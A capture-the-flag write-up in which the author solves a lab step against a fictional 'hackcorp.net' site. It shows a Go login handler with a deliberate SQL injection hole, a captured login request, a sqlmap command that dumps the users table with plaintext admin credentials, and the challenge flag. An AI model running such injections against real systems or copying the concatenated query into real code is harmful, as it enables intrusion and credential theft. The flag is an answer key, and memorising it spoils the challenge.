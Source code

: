 
# Description

```
Another one ? What could this be about ? Please break into it !

Intelligent bruteforcing (your own script) is recommended. The flag follows the format: 4T${<hex_key>}. The flag for this challenge will be annotated P6.
```

# Provided file

`login.go`
```go
package web

import (
	"fil-rouge/internal/db"
	"net/http"

	"github.com/labstack/echo/v4"
)

type LoginRequest struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func Login(s *Server) func(c echo.Context) error {
	return func(c echo.Context) error {
		var req LoginRequest
		if err := c.Bind(&req); err != nil {
			return err
		}

		// Get the user from database
		var user db.User
		db.DB.QueryRow("SELECT * FROM users WHERE login = '"+req.Username+"' AND password = '"+req.Password+"'").Scan(&user.ID, &user.Login, &user.IsAdmin, &user.Password)

		return c.JSON(http.StatusServiceUnavailable, map[string]interface{}{
			"status":  "error",
			"message": "I could contact the database but the service is down, come back later",
		})
	}
}
```

# Information from step 5

- `dump` file contains a memory dump

# Write Up

Back to my beloved `string` command, I ran

```bash
strings dump | grep 'hackcorp.net'
```

And it prompted me with some new `hackcorp.net` subdomains, especially
- https://admin1-aez.hackcorp.net

![](../../attachments/Pasted%20image%2020241111122046.png)

Reading the small lines, I saw that 
- `/db.sqlite` contained a previous database leakage which I downloaded.
- The API may not work correctly
- We can log in using `/USERNAME/PASSWORD`

`db.sqlite`
```bash
sqlite3 db.sqlite
```

```sql
sqlite> select sql from sqlite_master;
CREATE TABLE users (id integer not null primary key, login text, is_admin boolean, password text)
```

*Based on that we can see the database structure and extract some credentials (they were not working)*
```sql
sqlite> select * from users;
1|jd44|0|q1Ob8Lrt4yZdnzQ7hyLbK8UfhB8Cp7mN
2|Jack.fleuyr|0|6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn
3|jane.doe|0|Me12952zHrNuBOeSCLvr8ZKD0pR6myf2
```

As we are provided with the `login.go` source code, we can see that the login form is vulnerable to a Blind Time Based SQL Injection. 
So I captured a request in BurpSuite and run sqlmap as an haxor monkey.

`req.txt`
```
POST /api/v1/login HTTP/2
Host: admin1-aez.hackcorp.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://admin1-aez.hackcorp.net/
Content-Type: application/json
Content-Length: 41
Origin: https://admin1-aez.hackcorp.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"*","password":"*"}
```

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --dbms=sqlite3 --random-agent --technique=BTU --dump -T users -C id,login,id_admin,password
```

After some time, the database was dumped

```sql
+------+--------------+----------+----------------------------------+
| id   | login        | is_admin | password                         |
+------+--------------+----------+----------------------------------+
| NULL | Jack.fleuyr  | 0        | 6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn |
| NULL | theadmin0000 | 1        | e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL |
| NULL | jd44         | 0        | VFv2Qv9G0WuGFu0HTctBDnXLsJffmenB |
| NULL | Jack.fleuyr  | 0        | KE3gbRSnnxHgjmH1tcWYR3daptNw09ty |
| NULL | jane.doe     | 0        | heGS8Dcsvaht2gx3URFxUur3QDujCZCq |
| NULL | jd44         | 0        | xuMH5c0zxR1bjvikC3gD8pVMA0rOvfe0 |
| NULL | Jack.sdvz    | 0        | 6sJqUDj5Bbs8fXrJoPF8KjIaTtyE2i7N |
| NULL | jane.doe     | 0        | 5Aar3s6G78yfBXyQE10kquRORIS3aaan |
| NULL | owen.perkins | 0        | qB7BeivnTM9zMQcpFJAdpsuVoJJkny2  |
| NULL | agent.x      | 0        | 9d6QxAzQUexCJJs7CQtY5hsa4CgxbuU  |
+------+--------------+----------+----------------------------------+
```

Logging in with `theadmin000` worked
- https://admin1-aez.hackcorp.net/theadmin0000/e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL

![](../../attachments/Pasted%20image%2020241111123137.png)

# Flag

`4T${83c2613a2df6abaceec3fa7f32ed63d9}`

# Next

- [4. The Alert](4.%20The%20Alert.md)
- [7. Final](7.%20Final.md)
